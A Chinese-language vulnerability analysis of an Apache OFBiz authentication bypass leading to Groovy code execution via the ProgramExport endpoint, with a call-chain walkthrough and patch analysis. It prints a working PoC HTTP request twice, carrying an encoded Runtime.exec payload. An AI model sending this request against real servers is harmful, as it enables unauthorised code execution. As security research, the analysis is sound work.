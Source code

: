 作者：le1a@threatbook  
校验：jweny@threatbook

漏洞分析
====

在上一次的漏洞CVE-2023-49070中，修复方式仅仅是删除了XML-RPC模块，但全局的权限登陆校验的Filter仍未修复，导致了依然可以权限绕过去调用其他后台接口。这次漏洞就是与ProgramExport模块相关。

ProgramExport 模块是 OFbiz 中的一个模块，用于将 Groovy 脚本导出为 Java 类。它允许您在 OFbiz 中使用 Groovy 脚本，而无需将它们编译成 Java 字节码。

有趣的是，该后台漏洞在20年就披露了，而当时由于需要鉴权，所以被官方驳回，而修复的方案仅仅是不允许创建jsp文件......

![企业微信截图_e697c48e-244c-4dde-96d7-13e48043576d.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-75a459973677102e97d5cf5e291bbbde284b633b.png)

![企业微信截图_c67fb175-0b79-457a-a18d-c163df7c2526.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-bf73407e1dfd306d5ef2744453807c9785ab9990.png)

言归正传，根据上一次漏洞的权限绕过payload可构造如下POC：

```http
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```

将断点打在ProgramExport.groovy

![image-20231227212745859.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-4b729d1693e9a65dca298539b16c01f16cdf9416.png)

入口点在`ControlServlet#doGET()`中，然后调用了`handler.doRequest()`方法。在调用`handler.doRequest()`之前,主要是做请求预处理,包括获取用户会话信息、设置响应头、准备delegator、dispatcher、security等对象,以及打印调试日志等。这些预处理为后续的业务处理提供必要的上下文和资源。

跟进到`handler.doRequest()`

![image-20231227213000932.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-20e4cf124af8eab340265f76afff5593ecffe0c6.png)

这里根据`nextRequestResponse.type`的值来选择后续执行逻辑

而nextRequestResponse来自于这里

```java
ConfigXMLReader.RequestResponse successResponse = requestMap.requestResponseMap.get("success");
        if ((eventReturn == null || "success".equals(eventReturn)) && successResponse != null && "request".equals(successResponse.type)) {
            // chains will override any url defined views; but we will save the view for the very end
            if (UtilValidate.isNotEmpty(overrideViewUri)) {
                request.setAttribute("_POST_CHAIN_VIEW_", overrideViewUri);
            }
            nextRequestResponse = successResponse;
        }
```

requestMap中的requestResponseMap以及success Response是在解析controller.xml配置文件时读取并设置的。

具体代码在ConfigXMLReader类的parseRequestMap方法中:

```java
public void parseRequestMap(Element requestMapElement) {
  RequestMap requestMap = new RequestMap();
  requestMap.securityAuth = "true".equals(requestMapElement.getAttribute("auth"));
  requestMap.securityCert = "true".equals(requestMapElement.getAttribute("cert"));
  requestMap.securityExternalView = "true".equals(requestMapElement.getAttribute("external-view"));
  requestMap.securityDirectRequest = "true".equals(requestMapElement.getAttribute("direct-request")) ;  
  requestMap.securityHttps = "true".equals(requestMapElement.getAttribute("https"));

  // 解析event、response等子元素
  List<? extends Element> childElements = UtilXml.childElementList(requestMapElement);
  for (Element childElement: childElements) {
    if ("event".equals(childElement.getTagName())) {
      // 解析event元素  
    } else if ("response".equals(childElement.getTagName())) {
      // 解析response元素
      RequestResponse requestResponse = new RequestResponse();
      requestResponse.name = childElement.getAttribute("name");
      requestResponse.type = childElement.getAttribute("type"); 
      requestResponse.value = childElement.getAttribute("value");

      requestMap.requestResponseMap.put(requestResponse.name, requestResponse);  
    } else if ("success".equals(childElement.getTagName())) {
      // 解析success响应
      RequestResponse successResp = new RequestResponse();
      successResp.type = childElement.getAttribute("type");
      successResp.value = childElement.getAttribute("value");
      requestMap.requestResponseMap.put("success", successResp);
    }
  }

  // 添加到ControllerConfig的map中
  ccfg.addRequestMap(requestMap); 
}
```

可以看到,在解析每个`<request-map>`时,会解析出其success响应,添加到`requestResponseMap`中,供后续使用。

所以requestMap和其中的responses都是在启动初始化时从配置文件解析和设置的。

在controller.xml中也能看到type的值为view

![image-20231227214746879.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-fb68812f381479dfccd4d48d437263b657c325b3.png)

继续跟进到`renderView()`

![image-20231227214918328.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-6babf2a8a373b950913333c599354ea9af7f07c4.png)

这里主要是获取渲染CONTEXT,并准备好响应头的各种配置,以供后续视图渲染使用。

中间经过几层调用后，来到了关键的`org.apache.ofbizz.widget.model#runSubAction()`

![image-20231227222609957-4254905.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-eae508084ad0a1aaeb7fec37fde049bd29be95c7.png)

这里执行了ProgramExport.groovy，而action源于上一层调用

![image-20231227222937612](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1048722e6a282db153bbcb00170d0f19259bbd2f.png)

这里的actions元素也是从视图配置的XML文件中获取的。

![image-20231227223129516](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-6a71ba8eff3bc86beb9c1bb74a81629aa46126f9.png)

![image-20231227223156574](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1c6e9b56318c557876e16f73f7abd8f9fdd97359.png)

然后继续跟进到`runAction()`

![image-20231227223309371](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-76df98b74e7e16ed410398e60b7aa28d62322a37.png)

继续跟进

![image-20231227223322564](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1ee47969b4155fea77e7825f8ed32dc9dd350aa2.png)

继续跟进

![image-20231227223342357](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b1a1b4b3e7af204ab91b4b4504edcee7a05420cf.png)

继续跟进

![image-20231227223430890](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-40f5b6fc72854924ef388e90ee51198b014ecb89.png)

最终执行了Groovy代码

![image-20231227223743288](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-9a8e672249bbb67b63108fb61a810b3d6f4710c0.png)

补丁分析
----

在新的补丁中，更改了最后的login返回逻辑，如果前面都通过了，不再是根据requirePasswordChange的真假来判断，而是直接返回error，也就是前面传入Y，使得requirePasswordChange为True行不通了

![image-20231228001054149](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1b55e33296dc05b75fc15d07423ccc2a67494f11.png)

但是仔细观察发现，还有一处`return requirePasswordChange ? "requirePasswordChange" : "error";`没有修改

![image-20231228001317699](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-879a66704d97274c89891c7430d6fe79daa93a9f.png)

这里使用`isEmpty()`判断是否为空，需要null或者长度为0，所以空字符串正好满足

![image-20231228001446432](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1e370b097271e3ce5a89fc2c8b7ea56e008ba474.png)

那是不是username和password为空就能再次bypass呢？？？

经过实际测试发现，在上一个版本的确是可以成功，因为上个版本中的`checklogin`方法调用`login`方法的时候使用的并不是`isEmpty()`，而是判断是否为null。所以空字符串正好钻了空子，既不等于null，又满足`isEmpty()`

![image-20231228001819945](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1781671ea5f52d43be9f2dd812e16149daa20537.png)

而新版补丁改为了`isEmpty()`，与后续`login()`校验一致，导致没办法绕过了。

漏洞复现
====

1. 网站首页如下图：

![3b83950f29b76e5eae5696d673694929](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-8fe017c2491a2da097ebd0be5b4dad69f5f7963b.png)

2.使用如下POC进行验证

```php
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029

```

![8c57e87e534059003b792e49b7e90d27](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-82eb8923927f185a0c0a3baab00c08ce65e288ef.png)